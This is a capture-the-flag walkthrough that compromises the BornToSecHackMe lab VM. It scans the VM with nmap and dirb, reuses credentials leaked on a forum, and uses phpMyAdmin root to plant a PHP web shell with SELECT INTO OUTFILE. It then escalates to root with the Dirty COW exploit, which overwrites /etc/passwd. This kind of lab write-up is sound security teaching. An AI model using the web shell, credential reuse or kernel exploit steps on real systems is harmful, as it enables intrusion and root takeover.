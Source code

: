 # IP of Virtual Machine

Let's find IP of VM. To do it we use nmap.

```shell
pavel@pavel-VirtualBox:~/Desktop$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 10:56 MSK
Nmap scan report for pavel-VirtualBox (192.168.56.102)
Host is up (0.00036s latency).
All 1000 scanned ports on pavel-VirtualBox (192.168.56.102) are closed

Nmap scan report for 192.168.56.104
Host is up (0.00044s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

The IP address of VM is 192.168.56.104

# Scan <https://192.168.56.104>

The next step is to go to http://192.168.56.104 in browser.
After that let's use dirb to analyze it.

```shell
pavel@pavel-VirtualBox:~/Desktop$ dirb https://192.168.56.104 -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jan 13 11:13:12 2021
URL_BASE: https://192.168.56.104/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://192.168.56.104/ ----
+ https://192.168.56.104/cgi-bin/ (CODE:403|SIZE:291)                                                                                                                                                     
==> DIRECTORY: https://192.168.56.104/forum/                                                                                                                                                              
==> DIRECTORY: https://192.168.56.104/phpmyadmin/                                                                                                                                                         
+ https://192.168.56.104/server-status (CODE:403|SIZE:296)                                                                                                                                                
==> DIRECTORY: https://192.168.56.104/webmail/                                                                                                                                                            
                                                                                                                                                                                                          
-----------------
END_TIME: Wed Jan 13 11:13:14 2021
DOWNLOADED: 4612 - FOUND: 2
```

Let's check out the forum

```shell
==> DIRECTORY: https://192.168.56.104/forum/ 
```

# FORUM

Let's go to "Probleme login ?" page

Searching for "password" we can see an interesting log:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

The user confused the username with the password, and we can exploit this mistake.

Forum

    login: lmezard
    password: !q\]Ej?*5K5cy*AJ

Now let's get his e-mail from his profile in Forum and move to Webmail

Webmail

    login: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ
  
In hix box there is an email called "DB Access"

    Hey Laurie,

    You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

    Best regards.

Now we can go to 192.168.56.104/phpmyadmin

# PHP page as Shell

We will use SQL query to execute the commands via URL

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile '/var/www/forum/templates_c/backdoor.php'
```

From this moment we will execute our commands
```
https://192.168.56.104/forum/templates_c/backdoor.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz
```

```   
https://192.168.56.104/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATAME
password
```

```
https://192.168.56.104/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

So, let's use these login and password to connect via FTP. We can do it using FileZilla.

    host: 192.168.56.104
    user: lmezard
    pass: G!@M6f4Eatau{sF"
    port: 21

# Files into Password

There are two files 

1) fun - Archive
2) README.md

```
pavel@pavel-VirtualBox:/media/sf_shared_folder$ tar -xf fun
pavel@pavel-VirtualBox:/media/sf_shared_folder$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

Let's see what we had in an archive
```
pavel@pavel-VirtualBox:/media/sf_shared_folder$ ls -l ./ft_fun | wc -l
751
```

There are 751 files in that archive. And we arrange them in correct order using `script.py`.

After rearrangement we run the new `script.c` and get the password.

```shell
pavel@pavel-VirtualBox:/media/sf_shared_folder$ gcc script.c 
pavel@pavel-VirtualBox:/media/sf_shared_folder$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

```shell
pavel@pavel-VirtualBox:/media/sf_shared_folder$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

And now we're ready to connect via SSH

    login: laurie
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# After SSH

For the next step we need to use system vulnerabilities.
The Linux kernel we are working with is:

``` bash
$ uname -r
3.2.0-91-generic-pae
```

``` bash
$ cat /etc/*-release
Ubuntu, 12.04
```

In order to explit it we search this [website](www.exploit-db.com) and find the [next variant](https://www.exploit-db.com/exploits/40839)

This exploit uses the dirtycow vulnerability, which is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.



After compiling and running the program the user will be prompted for the new password.

Then this exploit back up the /etc/passwd file to /tmp/passwd.bak and overwrites the root account with the generated line.

After running the exploit you should be able to login with the newly created user, whiср name is "firefart" by default, and use this exploit to modify the user values according to your needs.

Compile the file
``` bash
$ gcc -pthread dirty.c -o dirty -lcrypt
```

``` bash
$ ./dirty <my-new-password>
```

``` bash
$ su firefart
```

Enter <my-new-password>